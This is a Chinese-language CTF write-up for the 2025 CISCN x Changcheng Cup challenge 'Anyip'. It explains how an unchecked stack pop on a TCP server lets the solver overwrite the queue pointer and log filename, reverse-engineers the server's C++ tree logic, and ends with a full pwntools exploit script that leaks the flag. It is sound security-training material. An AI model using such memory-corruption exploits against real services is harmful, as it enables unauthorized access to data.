```yaml
---
title: 国赛 x 长城杯 初赛 - Anyip
date: 2025/03/18 18:33:00
updated: 2025/03/24 18:33:00
tags:
    - inetd
    - hard to rev
thumbnail: /assets/ciscnxccb2025/bsslayout.png
excerpt: 通过控制队列的`rear`和树节点，实现了对`logname`的覆盖，最终输出flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

题目实现了一个最基础的tcp服务器，用户需要输入二进制内容和它进行交互。
根据读取缓冲区并parse的函数，可以总结出以下输入的规律：

![struct](/assets/ciscnxccb2025/struct.png)

其中 *action* 可以是`0x1111`, `0x2222`, `0x3333`或`0x4444`，分别对应树打印、
栈操作、树构建和队列操作。

其中栈和队列的操作比较好逆，可以通过 *opt* 来控制退栈和压栈等。
其中logname会在一开始按时间戳生成一个，我们不能通过打log来获取它的输出。
观察到操作栈时，压栈有检查，退栈却没有，分析bss上的布局，
我们可以覆盖到控制队列的`rear`。入队的时候直接用了`rear`来访问队列，
随后`rear = (rear + 1) % 10`，因此我们控制`rear`后可以向后方写入一个数字 *buf* 。
最简单的就是控制`bp`，然后我们就可以无限压栈，压到`sp`后，将`logname`的偏移压入其中，
接着就可以控制log文件的名字了。

![layout](/assets/ciscnxccb2025/bsslayout.png)

再然后就是难逆的树操作了。一开始还不太好看出来，因为有个0x50大小的结构体，
却没有任何信息。最后在一堆函数里找到这么个字符串：`"cannot create std::deque larger than max_size()"`，
借助C++编译一个空的deque然后-g生成调试符号，终于在Ghidra里读到了整个结构体的全貌，
同时也推出了其他的库函数，可以分析了。最后还原出的树构建的函数大约是这样的：

```c++ tree_operation
struct Node {
    char ch;
    Node *lchild;
    Node *rchild;
} *root;

void insert(char ch) {
    deque<Node *> dequeue;
    Node *node = root;
    dequeue.push_back(node);
    while (!dequeue.empty()) {
        node = dequeue.front();
        if (!node->lchild || !node->rchild)
            break;
        dequeue.push_back(node->lchild);
        dequeue.push_back(node->rchild);
        dequeue.pop_front();
    }
    if (!node->lchild)
        node->lchild = new Node(ch);
    else
        node->rchild = new Node(ch);
}

void tostring(string &acc) {
    Node *node = root;
    while (node || !dequeue.empty())
        if (node) {
            dequeue.push_back(node);
            node = node->lchild;
        } else {
            node = dequeue.back();
            acc += node->ch;
            dequeue.pop_back();
            node = node->rchild;
        }
}
```

{% note green fa-lightbulb %}
当不开优化选项时，C++的大量函数模板实例化后没有内联，导致这道题的很多函数是空的，
逆向难度变相提高了。如果开启了编译选项，结构体信息会全部打包进ELF中，使用反编译软件可以读取之，
从而方便我们backport类的结构体到题目中。（虽然还是要猜它是什么类）
{% endnote %}

根据以上代码，在插入节点时，使用BFS方式填充节点（也就是数组平铺式），
在构建字符串时使用中序遍历取出节点。在树打印函数中，如果中序遍历树得到`SomeIpfun`，
那么就会打开log文件并输出其中的内容。这也是唯一的输出内容的地方。

因此控制树节点使其中序遍历为`SomeIpfun`，并劫持`logname`为`"flag"`就可以输出flag。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './anyip'

def payload(lo: int):
    global sh, server
    if lo:
        if lo & 4 or not isinstance(server, process):
            server = process(EXE)
        if lo & 2:
            gdb.attach(server)
        sh = remote('127.0.0.1', 9999)
    else:
        sh = remote('', 9999)

    def encode(op: int, option: int, buf: bytes) -> bytes:
        return p16(op) + b'\0' + p8(option) + p64(0) + p32(0x701) + buf

    def send(buf: bytes):
        sh.send(buf)
        sleep(0.125)

    info('Setting up bp to bypass stack limitation')
    for _ in range(5):
        send(encode(0x2222, 2, b'')) # stack pop
    send(encode(0x2222, 1, b'27'))   # stack push: [rear] = &sp - &queue
    send(encode(0x4444, 1, b'4096')) # queue push: [bp] = 0x1000
    info('Setting sp to 16 to mod logname')
    for _ in range(14):
        send(encode(0x2222, 1, b'0'))
    send(encode(0x2222, 1, b'16'))   # stack push: [sp] = &logname - &stack
    info('Now set logname as "flag"')
    send(encode(0x2222, 1, str(u32(b'flag')).encode()))
    send(encode(0x2222, 1, b'0'))    # logname = "flag"

    info('Setting up char tree')
    sh.send(encode(0x3333, 3, b'p'))
    sh.send(encode(0x3333, 1, b'e'))
    sh.send(encode(0x3333, 1, b'u'))
    sh.send(encode(0x3333, 1, b'o'))
    sh.send(encode(0x3333, 1, b'I'))
    sh.send(encode(0x3333, 1, b'f'))
    sh.send(encode(0x3333, 1, b'n'))
    sh.send(encode(0x3333, 1, b'S'))
    sh.send(encode(0x3333, 1, b'm'))

    info('Now print the flag!!!')
    sh.send(encode(0x1111, 2, b''))

    sh.recvuntil(b'flag{')
    flag = b'flag{' + sh.recvuntil(b'}')
    success(f"Flag is: {flag.decode()}")
    sh.close()
```
